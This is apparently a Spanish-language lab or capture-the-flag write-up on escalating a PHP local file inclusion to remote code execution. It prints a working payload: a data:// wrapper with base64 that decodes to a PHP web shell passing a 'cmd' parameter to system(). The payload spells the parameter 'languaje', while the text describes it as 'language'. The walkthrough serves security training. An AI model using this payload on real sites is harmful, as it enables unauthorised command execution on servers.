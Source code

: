 # LFI: PHP Wrapper -> RCE 👩‍💻

La página web que vulneraremos es:

![Web.PNG](./assets/04-Cuarto/01-web.PNG)

* Vemos el **atributo** `?language=<Archivo>.php` en el cual podemos lograr un LFI y, en este caso, derivarlo a un `RCE` 👩‍💻

---

El **payload** que usaremos será: `?languaje=data://text/plain;base64,PD9waHAgc3lzdGVtKCRfR0VUWydjbWQnXSk7ID8%2bCg%3d%3d&cmd=[Comando]`

Con el anterior **payload** podemos ejecutar comandos en la máquina víctima

<p align="center">
    <img src="/assets/04-Cuarto/02-Test.PNG">
</p>

---

El enunciado nos dice que el archivo que contiene la **flag** se encuentra en la raíz del sistem (`/`), así que listaremos el contenido existente en esa ruta. 👨‍💻

<p align="center">
    <img src="/assets/04-Cuarto/03-ls.PNG">
</p>

---

Listamos el contenido del archivo con extensión `.txt`

<p align="center">
    <img src="/assets/04-Cuarto/04-flag.PNG">
</p>